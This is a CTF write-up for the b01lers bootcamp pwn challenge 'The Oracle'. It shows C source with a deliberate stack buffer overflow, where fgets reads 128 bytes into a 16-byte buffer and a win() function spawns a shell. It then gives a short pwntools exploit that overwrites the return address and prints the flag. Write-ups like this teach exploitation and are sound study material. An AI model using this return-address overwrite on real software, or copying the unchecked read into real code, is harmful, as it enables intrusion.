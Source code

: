## b01lers bootcamp: The Oracle [pwn]
![](oracle_description.png)

#### This challenge was easier than the previous ones. We are given the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char* argv[] = { NULL };
    char* envp[] = { NULL };

    execve("/bin/sh", argv, envp);
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[16];

    printf("Know Thyself.\n");
    fgets(buffer, 128, stdin);
}

```
#### There is a simple buffer overflow vulnerability and a win function that we can call. Simply redirect code flow to this function then get the flag.
```python
from pwn import *

#: 
#p = process('./theoracle')
p = remote('chal.ctf.b01lers.com', 1015)
print(p.recv())

#:
exploit = cyclic(24)
exploit += p64(0x401196)
p.sendline(exploit)
p.interactive()

#: flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```